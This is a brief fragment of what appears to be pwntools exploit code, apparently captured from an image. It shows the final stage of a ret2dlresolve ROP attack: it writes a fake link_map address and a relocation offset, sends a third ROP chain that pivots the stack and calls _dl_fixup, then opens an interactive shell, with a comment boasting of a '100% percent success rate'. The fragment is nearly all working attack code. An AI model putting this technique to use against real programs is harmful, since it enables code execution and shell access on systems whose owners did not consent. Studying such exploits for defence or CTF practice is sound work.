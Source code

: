 ```C
rop.raw(fakeLinkTableAddr) #link_map
rop.raw(0x0) #reloc_offset

#send third rop chain for stackpivioting to an address with more writeable memory and calling _dl_fixup
rop3 = ropPadding + rop.chain()
send(rop3)

# here is your shell :-) 100% percent success rate
io.interactive()
```